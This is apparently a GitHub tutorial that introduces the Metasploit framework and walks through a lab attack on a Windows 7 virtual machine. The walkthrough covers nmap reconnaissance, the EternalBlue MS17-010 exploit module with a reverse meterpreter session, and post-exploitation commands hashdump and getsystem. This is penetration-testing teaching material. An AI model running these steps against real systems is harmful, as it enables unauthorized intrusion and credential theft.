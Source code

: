 
# Metasploit

Metasploit is an exploitation framework (aka penetration framework) , build for security professional to support penetration testing.

**Most related alternative**

Cobalt strike – closed source/ commercial use only

## Why prefer Metasploit?
It supports and provides sufficient tools for almost all the phases of the penetration testing.

**Notations**
```mermaid
graph TB
A(Metasploit support)
B(Commercial version only)
style A fill:lightgreen,color:black,stroke:#333,stroke-width:1px
style B fill:orange,color:black,stroke:#333,stroke-width:1px

```
**Phases of penetration testing**
```mermaid
graph LR
A(Reconnance) --> B(Scanning)
B --> C(Gaining Access)
C --> D(Maintaining Access)
D --> E(Clearing Tracks)
E --> F(Reporting)

style A fill:lightgreen,color:black,stroke-width:1px
style B fill:lightgreen,color:black,stroke-width:1px
style C fill:lightgreen,color:black,stroke-width:1px
style D fill:lightgreen,color:black,stroke-width:1px
style E fill:lightgreen,color:black,stroke-width:1px
style F fill:orange,color:black,stroke-width:1px
```

## Modules provided by Metasploit?

 - exploits – the code that if executed takes advantage of the vulnerability to get unauthorized access to the desired system. Usually by the payload.

- payload – used by exploits. payload is a piece of code that are run by the target after successful exploitation (for backdoor, add new user, privilege escalation)

- Auxiliary – pre-exploitation features (scanning, fuzzing, sniffing)

- Encoders – to bypass firewall, IDS, IPS, Antivirus

- NOPS – no operation, use to ensure that if using multiple payloads, it is of same size. It ensures the proper execution of the instructions.

## How to Get Started?

### Metasploit Framework is Accessible Through:

 - Msfconsole [Metasploit Unleashed (offsec.com)](https://www.offsec.com/metasploit-unleashed/msfconsole/)
 - Armitage


**NOTE:** In case you are using any pen-testing OS like [Kali Linux](https://www.kali.org/) or [Parrot Security](https://www.parrotsec.org/), Metasploit  framework comes pre-installed with Msfconsole in them. 


## Hacking Windows 7 Machine?

**Attacker's Machine:** Kali Linux 2022.2

**Target Machine:** Windows 7

**Prerequisite:** 

 - The environment is setup in oracle vmware, with NAT connection 
 - The firewall of the windows is already disabled in this demonstration
 - The Attacker and Target machine is connected over the same network. i.e., they are in the same subnet.  

**NOTE: All steps written below will be performed in the atacker's machine**

**Step 1: Open msfconsole**

```bash
sudo msfconsole
```

**Step 2: Finding the Target's IP**

Find your eth0 IP address, to identify subnet to scan, because as the target machine is connected with the same router, it must be in the same subnet as well.
```bash
msf> ifconfig
```
Let attaker's IP: 192.168.126.128
Running a simple no-port host discovery nmap scan on the sub-network to find the target's machine.
```bash
msf> nmap -sn 192.168.126.0/24
```
![scan 1  result](https://github.com/000Sushant/metasploit_docs/blob/main/scan1.png)

One of this host could be the target machine we are looking for, so let's perform the osscan to be sure.
```bash
msf> nmap -O 192.168.126.0/24
```
![scan 2  result](https://github.com/000Sushant/metasploit_docs/blob/main/scan2.png)
We found the IP address of the target machine.
Target IP: 192.168.126.132

**Step 3: Finding Vulnerability in Target Machine**

Checking if the current version of OS the target machine is running on is having any publicly known vulnerability. This can be achieved by nmap script scan.
```bash
msf> nmap --script="vuln" 192.168.126.132
```
![scan 3  result](https://github.com/000Sushant/metasploit_docs/blob/main/scan3.png)

We identified that the target's machine is vulnerable for remote code execution, by the exploit smb-vuln-ms17-010. more details could be gathered from [CVE-2017-0143](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143).

**Step 4: Finding and Setting up the Exploit**

search is there is any exploit module available to exploit the Windows's SMB vulnerability ms17-101.

```bash
msf> search ms17 platform:windows
```

![exploit 1 result](https://github.com/000Sushant/metasploit_docs/blob/main/exploit1.png)


As we can see in the description of module index 0, it is mentioned that it provides an exploit named EternalBlue for MS17-010 vulnerability. We are going to use EternalBlue exploit, although you can also go for other modules.

```bash
msf> use 0
msf> show options
```

**NOTE:** You can use "show payload" to explore and change payload attached with the exploit.

![exploit 2 result](https://github.com/000Sushant/metasploit_docs/blob/main/exploit2.png)


As you can see, the place of RHOST is not set and mandatory to fill.

```bash
msf> set RHOST 192.168.126.132
```

![exploit 3 result](https://github.com/000Sushant/metasploit_docs/blob/main/exploit3.png)

**NOTE:** If your LHOST and LPORT is not set by default you can run following command to set LHOST to attacker's IP and LPORT to any random free port.
```bash
msf> set LHOST 192.168.126.128
msf> set LPORT 4444
```
**Step 5: Exploiting to Gain Access**

After setting up the environment just type exploit or run to execute the payload.
```bash
msf> exploit
```

Wait for few seconds and you will see an active meterpreter session. To verify your access, you can run following commands.

```bash
meterpreter> sysinfo
meterpreter> pwd
```

![success 1 result](https://github.com/000Sushant/metasploit_docs/blob/main/success1.png)

**Step 6: Post Exploitation Steps**
commands like hashdump and getsystem could be used to perform privilege escalation. 

```bash
meterpreter> hashdump
meterpreter> getsystem
```

![success 2 result](https://github.com/000Sushant/metasploit_docs/blob/main/success2.png)

However, it looks like the exploit we used also gave us the admin privilege in the provided meterpreter session.
